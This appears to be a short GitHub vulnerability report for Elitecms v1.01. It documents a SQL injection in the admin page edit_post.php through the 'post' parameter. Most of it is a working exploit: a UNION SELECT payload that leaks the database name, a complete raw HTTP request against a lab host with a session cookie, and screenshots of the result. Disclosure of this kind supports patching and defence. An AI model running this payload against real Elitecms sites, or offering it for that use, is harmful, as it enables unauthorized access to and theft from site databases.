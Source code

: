 # Elitecms v1.01 by elitecms has SQL injection

vendors: https://elitecms.net/download.php

Vulnerability File: /admin/edit_post.php

Vulnerability location: ip/eliteCMS1.01/admin/edit_post.php?page=1&post=, post

dbname: elitecms101

[+] Payload: /eliteCMS1.01/admin/edit_post.php?page=1&post=-1%20union%20select%201,2,3,4,database(),6--+ // Leak place ---> post

```sql
GET /eliteCMS1.01/admin/edit_post.php?page=1&post=-1%20union%20select%201,2,3,4,database(),6--+ HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167534254-c5b0df89-578f-4ba9-bc3b-73d6fe5ab029.png)

![image](https://user-images.githubusercontent.com/54017627/167534220-194aa8de-6e08-4fd1-bee2-cafa8bbc56d2.png)

